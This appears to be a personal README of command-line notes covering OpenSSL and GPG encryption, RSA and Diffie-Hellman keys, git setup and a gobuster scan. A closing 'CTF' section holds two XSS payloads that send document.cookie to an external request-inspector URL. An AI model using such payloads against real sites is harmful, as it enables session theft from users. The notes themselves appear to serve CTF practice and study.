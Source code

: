 # command-lines

## Encription

### GPG

`gpg --armor --symmetric --cipher-algo CIPHER message.txt`

`gpg --output original_message.txt --decrypt message.gpg`

### OpenSSL

`openssl aes-256-cbc -e -in message.txt -out encrypted_message`

`openssl aes-256-cbc -d -in encrypted_message -out original_message.txt`

`openssl aes-256-cbc -pbkdf2 -iter 10000 -e -in message.txt -out encrypted_message`

`openssl aes-256-cbc -pbkdf2 -iter 10000 -d -in encrypted_message -out original_message.txt`

### RSA 

`openssl genrsa -out private-key.pem 2048`

`openssl rsa -in private-key.pem -pubout -out public-key.pem`

`openssl rsa -in private-key.pem -text -noout`

`openssl pkeyutl -encrypt -in plaintext.txt -out ciphertext -inkey public-key.pem -pubin`

`openssl pkeyutl -decrypt -in ciphertext -inkey private-key.pem -out decrypted.txt`

### Deffie Hellman

`openssl dhparam -out dhparams.pem 2048`

`openssl dhparam -in dhparams.pem -text -noout`

### Certificate signing

`openssl req -new -nodes -newkey rsa:4096 -keyout key.pem -out cert.csr`

## Gobuster

gobuster dir -w /usr/share/wordlists/rockyou.txt -u "http://localhost:8000/"

## nmap


## Git

`git remote set-url origin git@github.com:sbahbouhi/command-lines.git`

`git init`

`git commit -m "xxxx"`

`git branch -M main`

`git remote add origin git@github.com:sbahbouhi/xxxx.git`

`git push -u origin main`

## CTF

### xss payloads

<script>window.location=`https://01hh4df1c5qk1fjks5n8spq9zn00-e4e6c9cb80653f2a86a1.requestinspector.com/${document.cookie}`</script>

fetch("https://01hh4df1c5qk1fjks5n8spq9zn00-e4e6c9cb80653f2a86a1.requestinspector.com?"+encodeURIComponent(document.cookie));




